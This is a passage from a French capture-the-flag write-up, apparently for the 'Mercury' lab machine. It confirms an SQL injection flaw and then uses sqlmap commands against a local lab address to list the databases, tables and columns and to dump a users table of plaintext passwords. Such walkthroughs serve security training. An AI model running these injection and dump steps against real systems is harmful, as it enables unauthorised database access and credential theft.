 Ce n'est qu'une petite partie de l'erreur qui est affichée mais celà nous suffit pour confirmer l'existence d'une **faille SQL**.

Sachant ça on peut s'amuser avec ``sqlmap`` pour récupérer les informations qui nous intéressent.

* * *

## Shell basique

```bash
sqlmap -u http://192.168.1.29:8080/mercuryfacts/1 --dbs
```

On spécifie l'URL vulnérable avec l'option **-u**.                                                                                                                                                
**\-\-dbs** permet de lister les bases de données présentes, ce qui donne :

```bash
[*] information_schema
[*] mercury
```

Ici c'est **mercury** que l'on souhaite utiliser. Pour spécifier la base ce sera avec l'option **-D** puis le nom de la base.

On va refaire l'opération successivement avec les options **\-\-tables** puis **\-\-columns** pour lister les tables et colonnes disponibles.

La sélection de la table se fait en rajoutant l'option **-T** à la suite de la commande suivie du nom de la table :

```bash
sqlmap -u http://192.168.1.29:8080/mercuryfacts/1 -D mercury --tables

+-------+
| facts |
| users |
+-------+


sqlmap -u http://192.168.1.29:8080/mercuryfacts/1 -D mercury -T users --columns

+----------+-------------+
| Column   | Type        |
+----------+-------------+
| id       | int         |
| password | varchar(50) |
| username | varchar(50) |
+----------+-------------+
```

On ne pourrait **dump** qu'une certaine colonne mais dans notre cas on désire obtenir les **noms d'utilisateurs** et les **mots de passe** donc on va directement tout récupérer :

```bash
sqlmap -u http://192.168.1.29:8080/mercuryfacts/1 -D mercury -T users --dump

+----+-----------+-------------------------------+
| id | username  | password                      |
+----+-----------+-------------------------------+
| 1  | john      | johnny1987                    |
| 2  | laura     | lovemykids111                 |
| 3  | sam       | lovemybeer111                 |
| 4  | webmaster | mercuryisthesizeof0.056Earths |
+----+-----------+-------------------------------+
```

